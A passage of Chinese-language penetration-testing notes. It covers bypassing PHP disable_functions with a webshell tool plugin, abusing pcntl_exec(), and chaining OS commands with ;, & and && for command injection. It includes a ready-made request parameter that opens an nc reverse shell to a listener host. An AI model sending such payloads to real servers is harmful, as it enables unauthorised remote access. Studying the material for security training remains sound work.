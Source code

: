 右键->加载插件->默认工具->`绕过disable-function`

选择模式可以选用`PHP7_GC_UAF`,点击开始



# pcntl_exec()函数

需单独加载插件

`pcntl_exec(string $path,array $args = ?,array $envs = ?)`

- 参数path:必须是可执行二进制文件路径或一个在文件第一行指定了一个可执行文件路径标头的脚本(比如文件第一行是`#!/usr/local/bin/perl`的perl脚本)
- 参数args:是一个要传递给程序的参数的字符串数组
- 参数envs:是一个要传递给程序作为环境变量的字符串数组

`# /bin/bash(path) -c /bin/ls(args)`

**info信息:**没有金庸`pcntl_exec()`

`pcntl_exec()`没有回显

- 解决方法一:cat文件并输出到有权限读取路径
- 解决方法而:shell反弹



POST或GET提交

`cmd=pcntl_exec("/bin/bash",array("-c","nc 172.21.205.184 7777 -e /bin/bash"));`

参数args:以数组的形式包裹起来

`-c`   执行二进制文件

`nc  `  反弹tcp连接到kali,kali监听端口

`-e /bin/bash`     返回命令行交互界面



# 操作系统链接符

`system("ls".$cmd);`

拼接命令

`;`				`&`				`&&`				`|`				`||`

## ;

使多个命令按顺序执行

## &(%26)

跟`;`命令差不多,不管前面命令有没有成功,都执行后面内容.

**需要使用url编码`%26`才能正常使用**

## &&
